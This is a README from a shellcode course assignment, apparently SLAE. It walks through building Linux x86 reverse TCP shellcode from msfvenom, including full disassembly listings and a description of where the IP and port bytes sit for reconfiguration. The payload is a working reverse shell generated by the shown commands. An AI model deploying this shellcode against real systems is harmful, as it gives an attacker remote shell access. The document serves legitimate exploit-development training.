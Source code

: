 # Assignment 1

## What to do 

• Create a Shell_Reverse_TCP shellcode 
   
    – Reverse connects to configured IP and Port 
   
    – Execs shell on successful connection 

• IP and Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_reverse_shell from Metasploit.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A80101        push dword 0x101a8c0
      0000001D  68020022B8        push dword 0xb8220002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

Once we have it, we need to find the place where the IP and the PORT are injected. We locate it by changing the LHOST and LPORT variables when running metasploit and comparing both outputs.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.123 LPORT=8999 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A8017B        push dword 0x7b01a8c0
      0000001D  6802002327        push dword 0x27230002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

We can see that the position where the code is different is 

      00000018  68C0A80101        push dword 0x101a8c0 (101a8c0 is 192.168.1.1)
      0000001D  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000018  68C0A8017B        push dword 0x7b01a8c0 (7b01a8c0 is 192.168.1.123)
      0000001D  6802002327        push dword 0x27230002 (2723 in litte endian is 2327 which is 8999 in decimal)

So, we only need to modify these twolines  every time we want to change the listening port. 

To do that easily, you can use compile_reverse_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

The steps that follows the shell before it starts to listen are showed here:

![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%201/reverse.png)
